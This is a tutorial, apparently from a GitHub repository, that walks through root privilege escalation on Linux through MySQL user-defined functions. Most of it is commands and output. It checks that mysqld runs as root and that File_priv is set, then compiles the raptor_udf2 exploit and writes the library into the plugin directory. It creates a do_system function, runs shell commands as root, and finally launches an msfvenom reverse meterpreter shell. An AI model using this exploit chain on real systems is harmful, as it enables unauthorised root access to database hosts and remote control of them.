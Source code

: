 # MySQL User Defined Function Exploitation
## Exploit Enumeration
Is MySQL running as EUID `root` ?? If so, this exploit is used for privilege escalation and requires `File_priv` access for the current user. First, we check MySQL as running effective UID,
```
attacker@target:~# ps aux | grep mysq[l]d
root        916  0.0 10.8 885088 53580 ?        Sl   Jan03   0:10 /usr/sbin/mysqld
```
Perfect. Next, we check for file-write permissions in MySQL monitor console. To check this, try,
```
mysql> select File_priv from mysql.user where user = substring_index(user(), '@', 1) ;
+-----------+
| File_priv |
+-----------+
| Y         |
| Y         |
| Y         |
| Y         |
+-----------+
4 rows in set (0.00 sec)
```
As you can see, I have the permission denoted as 'Y'. 

Next, we need to see the MySQL services host OS and compiled variable names with the following two SQL queries,
```
mysql> select @@version_compile_os, @@version_compile_machine;

+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| debian-linux-gnu     | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.00 sec)

mysql> show variables like '%compile%';show variables like '%compile%';

+-------------------------+------------------+
| Variable_name           | Value            |
+-------------------------+------------------+
| version_compile_machine | x86_64           |
| version_compile_os      | debian-linux-gnu |
+-------------------------+------------------+
2 rows in set (0.00 sec)
```
Now we need to find the plugin directory with the following SQL query,
```
mysql> select @@plugindir;
+------------------------+
| @@plugin_dir           |
+------------------------+
| /usr/lib/mysql/plugin/ |
+------------------------+
1 row in set (0.00 sec)
```
Now, we know that the plugin must be located in `/usr/lib/mysql/plugin/`. This directory will most likely only be accessible (writeable at least) by root. What our goal is to use MySQL functions to write to this directory. Well, we know that we are using a 64bit version of MySQL from the output above, `x86_64`. This means we can obtain one online and hope that it is valid (and safe) OR simply comile our own as so,

## MySQL UDF Exploit (Exploit-DB)
We will be using this exploit "MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)" from [Exploit-DB.com](https://www.exploit-db.com/exploits/1518). Download the exploit to the `/tmp` or some other writeable directory, and compile it with,
```
user@target:/tmp$ gcc -g -c raptor_udf2.c -fPIC
```
This will create `raptor_udf2.o` which we will now use to compile the plugin as so,
```
user@target:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Now, we should have the file `raptor_udf2.so`. Let's use it with the MySQL monitor shell to exploit the damn thing.
```
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
mysql> \! sh
sh-2.05b$ cat /tmp/out
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
```
So, now, we can upload a reverse meterpreter shell, made with MSFVenom, to the target system into `/tmp`, named LinRevMet555, and execute it as root with,
```
mysql> select do_system('/tmp/LinRevMet5555');
```
And get a shell as root.

